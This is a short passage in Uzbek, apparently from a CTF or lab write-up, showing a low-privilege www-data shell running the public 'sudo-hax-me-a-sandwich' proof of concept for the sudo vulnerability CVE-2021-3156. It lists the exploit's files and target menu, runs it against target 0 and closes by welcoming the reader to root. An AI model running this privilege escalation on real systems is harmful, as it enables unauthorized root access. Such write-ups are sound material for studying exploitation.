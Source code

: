  va natija:

```
www-data@ip-10-201-41-130:/tmp/CVE-2021-3156$ ls
ls
Makefile  README.md  brute.sh  hax.c  lib.c  libnss_X  sudo-hax-me-a-sandwich
```

Ishga tushiramiz:

```
www-data@ip-10-201-41-130:/tmp/CVE-2021-3156$ ./sudo-hax-me-a-sandwich                
./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

Nishonni tanlab ishga tushiramiz:

```
./sudo-hax-me-a-sandwich 0
```

Root ga xush kebsiz)
